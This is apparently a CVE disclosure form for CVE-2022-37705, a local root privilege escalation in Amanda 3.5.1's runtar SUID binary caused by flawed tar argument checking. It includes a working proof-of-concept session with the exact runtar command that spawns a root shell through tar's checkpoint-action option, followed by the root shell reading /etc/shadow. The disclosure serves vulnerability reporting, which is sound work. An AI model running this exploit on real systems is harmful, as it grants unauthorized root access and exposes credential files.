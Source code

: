 > [Suggested description]
> A privilege escalation flaw was found on Amanda 3.5.1 that can take
> backup user to root privileges. The vulnerable component is the runtar
> SUID that is just a wrapper to run /usr/bin/tar with specific arguments
> that are controllable by the attacker. The program does not check
> correctly the args passed to tar binary (it assumes that all args
> should be like this --ARG VALUE but we can provide this --ARG=VALUE as
> one argument).
>
> ------------------------------------------
>
> [Additional Information]
> This flaw can be used for Code Execution, Denial of Service, Escalation of Privileges and Information Disclosure.
> This is the PoC to exploit it and get a root shell:
> backup@maher:/lib/amanda$ id
> uid=34(backup) gid=34(backup) groups=34(backup),6(disk),26(tape)
>
> backup@maher:/lib/amanda$ head /etc/shadow
> head: cannot open '/etc/shadow' for reading: Permission denied
>
> backup@maher:/lib/amanda$ ./runtar NOCONFIG tar  --create --file=/dev/null --checkpoint=1 --directory=. --checkpoint-action=exec=/bin/sh /dev/null
> tar: Removing leading `/' from member names
> # head /etc/shadow
> root:!:19132:0:99999:7:::
> daemon:*:19101:0:99999:7:::
> bin:*:19101:0:99999:7:::
> sys:*:19101:0:99999:7:::
> sync:*:19101:0:99999:7:::
> games:*:19101:0:99999:7:::
> man:*:19101:0:99999:7:::
> lp:*:19101:0:99999:7:::
> mail:*:19101:0:99999:7:::
> news:*:19101:0:99999:7:::
> #
>
> ------------------------------------------
>
> [VulnerabilityType Other]
> Flawed Arguments Checking.
>
> ------------------------------------------
>
> [Vendor of Product]
> Amanda
>
> ------------------------------------------
>
> [Affected Product Code Base]
> runtar - 3.5.1
>
> ------------------------------------------
>
> [Affected Component]
> The affected SUID binary is : runtar
> The affected file is : runtar.c
> The affected lines of code start at line 162.
>
> ------------------------------------------
>
> [Attack Type]
> Local
>
> ------------------------------------------
>
> [Impact Code execution]
> true
>
> ------------------------------------------
>
> [Impact Denial of Service]
> true
>
> ------------------------------------------
>
> [Impact Escalation of Privileges]
> true
>
> ------------------------------------------
>
> [Impact Information Disclosure]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> To exploit the binary you just have to give crafted arguments to the runtar SUID binary to escalate to root.
>
> ------------------------------------------
>
> [Reference]
> http://www.amanda.org/
>
> ------------------------------------------
>
> [Discoverer]
> Maher Azzouzi

Use CVE-2022-37705.
